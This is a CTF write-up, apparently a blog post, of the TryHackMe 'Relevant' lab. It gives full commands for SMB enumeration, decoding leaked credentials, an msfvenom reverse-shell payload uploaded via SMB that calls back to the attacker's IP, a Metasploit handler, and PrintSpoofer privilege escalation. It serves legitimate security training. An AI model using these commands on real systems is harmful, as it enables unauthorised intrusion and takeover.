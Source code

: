 ```yaml
---
title: TryHackMe - Relevant
layout: post
categories:
- TryHackMe
tag:
- pentest,
- security,
- accessible
image: "/assets/img/relevant.jpeg"
image_alt: relevant
---
```


Relevant is a medium challenge from TryHackMe. There are some ways to complete this machine. I'll solve it one way. Let's start.

<br>

## 1. Pre-Engagement Briefing 

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)
I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

<br>

### 1.1 User Flag?

Let's do a nmap scan first.

```
$ nmap -sSV -P- 10.10.7.6
```

![nmap](/assets/img/tryhackme/relevant/nmap.png)

And we found a few ports that will work for us. These are 80/tcp HTTP, 49663/tcp HTTP, and 445/tcp

I did a gobuster scan, and the connection to both HTTP ports, probably due to my VPN, was very slow, I couldn't wait, so I couldn't get any results from the gobuster scan.

```
$ gobuster dir -u http://10.10.7.6:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/relevant/gobuster.png)

So I decided to try SMB login.

```
$ smbclient -L //10.10.7.6
```

![smb](/assets/img/tryhackme/relevant/smb.png)

There is no password.

We found this `nt4wrksv`. Now, let's try to get in here.

```
$ smbclient //10.10.7.6/nt4wrksv
```

![password](/assets/img/tryhackme/relevant/password.png)

We found the passwords.txt file. Let's see what's in it.

```
> get passwords.txt
> exit
$ cat passwords.txt
```

![smbin](/assets/img/tryhackme/relevant/smbin.png)

This file contains base64 encoded credentials:

```
$ echo "Qm9iIVBAJCRXMHJEITRyMw==" | base64 -d
$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA20TY5NjkhJCQK" | base4 -d
```

![base64](/assets/img/tryhackme/relevant/base64.png)

**`Bob : ***********`**

**`Bill: ********************`**

You have access to SMB, so let's check if we can install and run the reverse shell.

First, let's create a reverse shell. Then let's put it in SMB.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.168.86 lport=4444 -f aspx -o shell.aspx
$ smbclient //10.10.7.6/nt4wrksv
$ put shell.aspx 
```

![payload](/assets/img/tryhackme/relevant/payload.png)

Now let's create a listener using metasploit.

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/x64/meterpreter_reverse_tcp
> set LHOST 10.8.168.86
> set LPORT 4444
> run
```
And call the reverse shell in the browser **`http://10.10.7.6:49663/nt4wrksv/shell.aspx`**

And we are inside.

![info](/assets/img/tryhackme/relevant/info.png)

Now we can get the user flag.

```
> cd c:/Users/Bob/Desktop
> cat user.txt
```

![user-flag](/assets/img/tryhackme/relevant/user-flag.png)

<br>

### 1.2 Root Flag?

We need to do an authorization elevation for the root flag. 
Running the “whoami /priv” command to check the current user’s privileges in the system:

```
> shell
> whoami /priv
```

![priv](/assets/img/tryhackme/relevant/priv.png)

It appears the current user has the SeImpersonatePrivilege token enabled, which means token impersonation could be used to escalate privileges.

Although Juicy Potato is normally used to exploit token impersonation, this only works if DCOM is enabled on the server. A great alternative is the PrintSpoofer exploit. Downloading the exploit from the Git repository and placing it on the nt4wrksv SMB share so it can be easily transferred to the target machine: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

First, let's download the file and put it in SMB, then run it.

```
$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
$ smbclient //10.10.7.6/nt4wrksv
$ put PrintSpoofer64.exe
```

Let's go back to shell and follow.

```
> cd \inetpub\wwwroot\nt4wrksv
> dir
> PrintSpoofer64.exe -i -c powershell.exe
```

![privesc](/assets/img/tryhackme/relevant/privesc.png)

And now we have root privileges. Now we can reach the root flag. 

```
$ cd c:/Users/Administrator/Desktop
$ cat root.txt
```
<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
